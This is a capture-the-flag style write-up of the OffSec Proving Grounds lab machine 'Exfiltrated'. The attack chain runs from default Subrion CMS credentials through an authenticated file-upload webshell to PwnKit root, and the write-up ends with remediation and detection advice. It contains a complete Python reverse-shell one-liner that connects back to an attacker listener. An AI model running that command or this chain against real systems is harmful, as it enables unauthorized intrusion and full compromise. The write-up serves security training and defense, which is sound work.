




# OffSec Proving Grounds - Exfiltrated

**OS:** Linux

Exfiltrated runs Subrion CMS with default admin credentials. The installed version is vulnerable to an authenticated arbitrary file upload that leads to remote code execution. Privilege escalation is PwnKit (CVE-2021-4034), the polkit local privilege escalation that affected a wide range of Linux distributions.

| Field | Value |
|---|---|
| Platform | OffSec Proving Grounds |
| Target | `<target-ip>` |
| Initial Access | Default credentials on an exposed management interface |
| Privilege Escalation | PwnKit local privilege escalation |
| Final Access | root |

---

## Attack Path

1. Recon identified the exposed services and separated useful attack surface from noise.
2. The first break was Default credentials on an exposed management interface.
3. Post-exploitation enumeration exposed PwnKit local privilege escalation.
4. The final privileged context was reached and the required proof was captured.

---

## Recon

### Web Enumeration

The HTTP server redirected to `exfiltrated.offsec`, which was added to `/etc/hosts`. The Wappalyzer browser extension identified the CMS as Subrion. The admin panel at `/panel/` accepted the default credentials `admin:admin`.



---

## Initial Access

### Subrion Arbitrary File Upload (CVE-2021-41878)

The installed Subrion version (4.2.1) is vulnerable to an authenticated arbitrary file upload that bypasses extension validation - a `.phar` file with PHP content can be uploaded through the media manager and executed via the web server. EDB-ID:49876 automates this, delivering a webshell as `www-data`.



The webshell was non-interactive, so it was used to send a Python 3 reverse shell back to a netcat listener:

```bash
export RHOST="192.168.49.147";export RPORT=80;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```



---

## Privilege Escalation

### PwnKit (CVE-2021-4034)

`linpeas` flagged the system as vulnerable to CVE-2021-4034 (PwnKit), a memory corruption bug in `pkexec` allowing any local user to escalate to root. The exploit from [ly4k/PwnKit](https://github.com/ly4k/PwnKit) gave an immediate root shell.



---

## Summary

Exfiltrated is a straightforward CMS compromise chain: default credentials enable access to an admin panel with an upload vulnerability, the webshell is upgraded to a full shell, and PwnKit handles the escalation. Default credentials on CMS installations are a persistent real-world problem.

**Key takeaway:** CMS admin panels with default credentials and file upload functionality are a reliable initial access path - the combination of authentication bypass and upload abuse is common across many CMS platforms.

---

## Root Cause

The demonstrated path worked because default credentials, unpatched vulnerable software gave the attacker a bridge from reconnaissance to execution. The important pattern is the chain: Default credentials on an exposed management interface created a foothold, and PwnKit local privilege escalation converted that foothold into root.

## Impact

Successful exploitation reached root. That level of access allows command execution, proof or sensitive-file access, credential collection, and a realistic path to additional systems if the same credentials, services, or trust relationships exist elsewhere.

## Remediation

- Remove or harden the specific exposure used for initial access: Default credentials on an exposed management interface.
- Fix the privilege boundary that enabled escalation: PwnKit local privilege escalation.
- Rotate credentials observed or replayed during the chain and search for reuse on adjacent systems.
- Validate the fix by safely replaying the enumeration steps that originally exposed the weakness.

## Detection Opportunities

- Alert on exploit attempts or suspicious access patterns against the service that enabled initial access.
- Correlate successful authentication, new process creation, and privilege-boundary events after enumeration activity.
- Monitor for the specific escalation signal: PwnKit local privilege escalation.

## Lessons Learned

- The winning path was not just a vulnerable service; it was the connection between Default credentials on an exposed management interface and PwnKit local privilege escalation.
- Preserve the observations that explain why each pivot made sense, not only the commands that worked.
- Write remediation from the root cause of each step so the report reads like an operator narrative and a defender action plan.
